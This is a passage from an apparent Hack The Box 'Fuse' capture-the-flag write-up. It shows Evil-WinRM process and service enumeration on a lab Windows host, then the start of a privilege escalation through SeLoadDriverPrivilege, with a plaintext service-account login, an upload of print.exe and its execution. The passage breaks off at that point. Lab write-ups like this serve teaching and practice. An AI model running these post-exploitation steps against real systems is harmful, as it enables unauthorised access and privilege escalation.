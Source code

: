 ```text
   1346      29    56524      76172       0.88   2568   0 wsmprovhost
```

I checked running processes and didn't see anything too exciting.

```text
*Evil-WinRM* PS C:\users\svc-print\Desktop> services

Path                                                                              Privileges Service                     
----                                                                              ---------- -------                     
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                              False ADWS                        
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                           True NetTcpPortSharing           
C:\inetpub\wwwroot\papercut\pcpl.exe PCPrintLogger                                     False PCPrintLogger               
C:\Windows\SysWow64\perfhost.exe                                                       False PerfHost                    
C:\Windows\servicing\TrustedInstaller.exe                                              False TrustedInstaller            
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                 False VGAuthService               
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                    False VMTools                     
"C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\CommAmqpListener.exe"         False VMwareCAFCommAmqpListener   
"C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe"      False VMwareCAFManagementAgentHost
"C:\Program Files\Windows Defender\NisSrv.exe"                                          True WdNisSvc                    
"C:\Program Files\Windows Defender\MsMpEng.exe"                                         True WinDefend
```

Same with running services. I did notice that there was the print service for Papercut running, however.

### Exploiting SeLoadDriverPrivilege

I decided that since the service account had the `SeLoadDriverPrivilege` privilege I would see if there were any published privilege escalation methods using it. I quickly found one at [https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193 -P 5985                             1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload print.exe
Info: Uploading print.exe to C:\Users\svc-print\Documents\print.exe


Data: 98400 bytes of 98400 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-print\Documents> ./print.exe
*Evil-WinRM* PS C:\Users\svc-print\Documents> Get-Process

```